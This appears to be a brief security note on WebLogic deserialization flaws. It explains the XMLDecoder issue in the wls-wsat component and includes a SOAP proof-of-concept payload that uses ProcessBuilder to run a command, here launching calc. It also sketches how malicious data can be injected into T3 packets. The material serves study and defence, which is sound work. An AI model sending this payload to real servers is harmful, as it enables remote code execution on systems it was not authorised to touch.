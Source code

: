 # WebLogic deserialization

## XMLDecoder

The `wls-wsat` component of the `WebLogic` use the `XMLDecoder` class to deserialize JavaBean instance data in XML format without checking permission.

The example POC is as follow:

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.8.0_151" class="java.beans.XMLDecoder">
            <object class="java.lang.ProcessBuilder">
                <array class="java.lang.String" length="3">
                <void index = "0">
                    <string>cmd</string>
                </void>
                <void index = "1">
                    <string>/c</string>
                </void>
                <void index = "2">
                    <string>calc</string>
                </void>
                </array>
                <void method="start"/>
                </object>
                </java>
        </wor:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

## T3 protocol

The T3 protocol is the communication protocol used for RMI in the `WebLogic`.

In a T3 packet, the first part is the packet length, T3 protocol header and `WebLogic` deserialization flag. Then the other parts are multiple groups of deserialized data.

Therefore, we can modify the T3 packet and put malicious deserialization data.
